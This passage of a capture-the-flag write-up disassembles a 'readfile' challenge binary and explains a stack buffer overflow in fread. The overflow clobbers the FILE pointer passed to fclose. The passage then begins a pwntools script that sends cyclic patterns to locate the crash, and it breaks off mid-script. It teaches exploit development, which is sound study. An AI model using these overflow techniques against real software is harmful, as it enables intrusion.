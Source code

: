 ```
|           0x080488ca      890424         mov dword [esp], eax
|           0x080488cd      e8aefcffff     call sym.imp.fseek
|           0x080488d2      8b55f0         mov edx, dword [ebp - local_10h]
|           0x080488d5      8d85f0feffff   lea eax, [ebp - local_110h]
|           0x080488db      8b4df4         mov ecx, dword [ebp - local_ch]
|           0x080488de      894c240c       mov dword [esp + 0xc], ecx
|           0x080488e2      89542408       mov dword [esp + 8], edx
|           0x080488e6      c74424040100.  mov dword [esp + 4], 1
|           0x080488ee      890424         mov dword [esp], eax
|           0x080488f1      e8aafcffff     call sym.imp.fread
|           0x080488f6      8d85f0feffff   lea eax, [ebp - local_110h]
|           0x080488fc      890424         mov dword [esp], eax
|           0x080488ff      e8acfcffff     call sym.imp.puts
|           0x08048904      8b45f4         mov eax, dword [ebp - local_ch]
|           0x08048907      890424         mov dword [esp], eax
|           0x0804890a      e861fcffff     call sym.imp.fclose
|           0x0804890f      c9             leave
\           0x08048910      c3             ret
```

The juicy bits of this function occurs during the `fread`. The `fread` writes to `local_110h` whatever contents of the file given, giving us a buffer overflow. Time to ROP.. or not so fast.

During this overflow the `local_ch` variable is overwritten which contains the file handle for the open file. This is a problem due to after the overflow occuring, this pointer is passed to `fclose`. If this pointer isn't pointing to a valid `FILE` struct, we get a fantastic segfault which isn't great for us in this case.

We begin with the following script. This script simply creates functions to make calling the binary's functions a bit easier. We are setting the filename to a `cyclic` value of uppercase characters and the contents of the file as another cyclic of lowercase characters so if we see those cyclic values in the crash, we know where the data came from (`win_1.py` in the [Github](https://github.com/ctfhacker/ctf-writeups))

```python
from pwn import *
import string

context.terminal = ['tmux', 'splitw', '-h']

r = None

def write_file(name, data):
    r.sendline('1')
    r.sendline(name)
    r.sendline(str(len(data)))
    r.sendline(data)

def read_file(name):
    r.sendline('2')
    r.sendline(name)

filename = '/tmp/' + cyclic(240, alphabet=string.ascii_uppercase)
print(filename)
try:
    os.remove(filename)
except:
    pass

r = process("./readfile")
write_file(filename, cyclic(1000))

r = process("./readfile")
gdb.attach(r, '''
c
```